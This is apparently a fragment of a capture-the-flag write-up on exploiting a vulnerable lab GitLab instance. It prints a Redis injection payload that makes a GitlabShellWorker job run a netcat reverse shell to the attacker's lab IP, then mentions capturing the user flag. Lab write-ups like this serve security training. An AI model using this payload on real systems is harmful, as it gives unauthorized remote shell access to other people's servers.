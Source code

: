<img src="./img/testcve.png"  width="650"/>

The instance is vulnerable so create a new project and this time i added the following payload for the rev shell

```ruby
multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|nc 10.10.14.181 9090 -e /bin/bash \').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
```
<img src="./img/revshell.png"  width="650"/>

Now i go on `dude` home and take the user flag.
<img src="./img/userflag.png"  width="650"/>
